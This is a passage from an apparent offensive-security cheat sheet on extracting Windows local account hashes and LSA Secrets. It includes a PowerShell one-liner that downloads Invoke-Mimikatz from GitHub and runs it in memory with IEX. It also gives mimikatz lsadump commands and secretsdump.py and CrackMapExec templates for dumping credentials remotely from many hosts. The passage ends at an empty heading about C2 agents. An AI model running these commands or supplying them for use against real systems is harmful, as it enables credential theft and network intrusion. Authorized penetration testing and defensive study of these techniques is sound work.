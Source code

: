 Alternatively, `mimikatz` may be used directly on the targeted system to
retrieve the local accounts hashes and the `LSA Secrets` through the `Windows
API` (and not by decrypting and parsing the `HKLM\SAM` and `HKLM\SECURITY`
registry hive):

```Powershell
# PowerShell in memory injection
# If the compromised host can not access internet, Invoke-Mimikatz.ps1 should be hosted on a local website on the attacking machine
(New-Object System.Net.WebClient).Proxy.Credentials =  [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam" "lsadump::cache" "token::revert"';

mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::cache exit
```

###### Remote SAM and LSA Secrets dump and extraction

The `Impacket`'s `secretsdump.py` Python script and the Python `CrackMapExec`
tool, which is built upon `Impacket`, can be used to remotely dump and extract
the `HKLM\SAM` and `HKLM\SECURITY` registry hives.

`secretsdump.py` leverages the Windows `Remote Registry` service to save the
`HKLM\SAM` and `HKLM\SECURITY` registry hives in the target host
`%SYSTEMROOT%\Temp` directory. The exported hives are then remotely parsed to
extract the credentials.

`CrackMapExec` wraps around `secretsdump.py` and can be used for distributed
dumping of the local accounts and `LSA Secrets` of multiple hosts.

```bash
# Impacket's secretsdump.py
# NTLM authentication
secretsdump.py [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP>
secretsdump.py -hashes <LM_HASH:NT_HASH> [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP>

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
secretsdump.py -k -no-pass [-dc-ip <DC_IP>] <HOSTNAME>

# CrackMapExec
# <TARGET | TARGETS> : IP(s), IP range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containing a list of <TARGETS>
# Local accounts - HKLM\SAM
crackmapexec smb <TARGET | TARGETS> --sam (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
# LSA Secrets - `HKLM\SECURITY
crackmapexec smb <TARGET | TARGETS> --lsa (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```

###### SAM and LSA Secrets dump and extraction through C2 agents
